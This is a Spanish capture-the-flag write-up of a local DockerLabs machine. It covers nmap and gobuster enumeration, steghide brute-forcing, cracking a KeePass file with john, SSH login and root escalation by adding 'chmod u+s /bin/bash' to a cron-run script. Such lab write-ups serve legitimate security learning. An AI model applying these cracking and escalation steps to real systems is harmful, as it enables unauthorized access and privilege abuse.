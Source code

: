 Máquina HackePenguin

Iniciamos con mi rutina básica de reconocimiento de nmap:

```
sudo nmap -p- --open -sSCV --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN Target
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:13:95:24:c7:08:e8:36:51:6d:ab:b2:e5:3e:3b:da (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNVFhFPx46QZ+sM4vC3yecbwD2hDgxKBg8x/alXdgL/ojBUsbliyqCPFfQ08+WTNu+4fipx7zg9V8ZjKDxFmBnw=
|   256 e2:f3:81:1f:7d:d0:ea:ed:e0:c6:38:11:ed:95:3a:38 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIWG6446chvKHIhxdIVHwcEw1kXFORyLzANPqUKTdCku
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Bueno pues vemos una página web y un ssh activo, vamos a enumerar la página web:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/c964245a-da2d-4e32-aabe-ca9296101542)

Bueno es un apache por defecto, vamos a fuzzear un poco a ver si encontramos algo:

```
gobuster dir -u "http://172.17.0.2" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/penguin.html         (Status: 200) [Size: 342]
/.html                (Status: 403) [Size: 275]
Progress: 406141 / 4741020 (8.57%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 407142 / 4741020 (8.59%)
===============================================================
Finished
===============================================================
```

Ya hemos encontrado cositas, vamos a verlo:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/266c4060-d7fd-4713-a74c-863dab65d04d)

No vemos nada a priori, vamos a ver la imagen, que es lo unico que tenemos de valor, así que por probar vamos a descargarnos la imagen con 
wget la imagen y a meterle un rockyou con stegide:

Para hacer fuerza bruta con steghide tengo un repositorio: https://github.com/FakeLuci/brute-force-on-steghide.git

Configuramos el script y encontramos que la contraseña es chocolate:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/5a02c44d-d5df-49ea-89f7-ffdb337598ee)

Al parecer hemos extraido un archivo penguin.kdbx, sinceramente no tengo ni idea de que es un archivo .kdbx, investigando he encontrado que
es un archivo de keypass, pues bueno vamos a descargarnos keypass para ver que hay dentro:

Intentamos entrar al archivo de keepas para ver uqe hay dentro:

```
keepass2 penguin.kdbx
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/6992b937-9586-44d7-bc76-9aa94ef39bce)

Bueno al parecer la contraseña chocolate no es la contraseña master de este archivo, he estado investigando en internet y este mismo archivo se puede desencriptar con john
de la siguiente manera:

```
keepass2john penguin.kdbx > password
john password
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/4e435199-8253-4afb-a3fa-1c1ea3c9e682)

Pues si sabemos que la paswword de el archivo es "password1" pues entramos en el archivo

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/7100dbf4-a2c7-4ab7-8b78-f6ef569e6de4)

teniendo estas credenciales ahora podemos entrar por ssh:

Bueno pues probando con el usuario pinguino no va, he probado con penguin y ahora si va, vamos a ver uqe hay dentro:

Una vez dentro utilizamos el siguiiente comando para mejorar la consola:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Bueno nada mas entrar he hecho ls y he encontrado un script bastante tentador, vamos a ver si es una tarea cron con el siguinete script:

```
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "^[<>]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
```

y bueno de primeras ya vemos que se ejecuta muchisimas veces uspongo que estara cada segundo o algo así:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/e78f8f5a-4920-40b7-bcac-8cd18230f396)

pues bueno tan simple como poner dentro de este script: chmod u+s /bin/bash

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/9069eee9-b0ee-49e7-8e67-34bc4ae2908b)

Esta máquina me ha gustado mucho ya que he aprendido a saber y desencriptar que es un archivo .kdbx y a utilizar keepass2
ademas de utilizar unas cuantas herramientas scripteadas sin tener que hacer copia y pega como el script de steghide y el procmon

Dificultado 2/5
Diversión 2/5




